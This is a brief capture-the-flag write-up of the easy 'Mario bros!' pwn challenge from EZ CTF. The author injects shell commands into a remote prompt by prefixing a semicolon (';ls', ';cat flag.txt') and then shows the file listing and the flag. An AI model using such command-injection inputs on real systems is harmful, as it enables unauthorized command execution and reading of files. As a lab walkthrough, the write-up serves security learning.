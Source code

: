 # EZ CTF

## Pwn

### Mario bros!

**Difficulty:** Easy

**Statement:** Read the flag!  

***

For this challenge, I need to connect to the remote server.

Once connected, we are on a bash shell with the return: `Are you root?`

Sending a single value or command closes the shell and the connection to the server.

So I'm just trying to add a `;` to inject a command: `;ls`

```
entrypoint.sh
flag.txt
pwn.sh
ucspi-tcp-0.88
ucspi-tcp-0.88.errno.patch
ucspi-tcp-0.88.tar.gz
```

I just have to read the content of the file **flag.txt**: `;cat flag.txt`

```
EZ-CTF{UNSECUR3_B4SH}
```

Flag: EZ-CTF{UNSECUR3_B4SH}
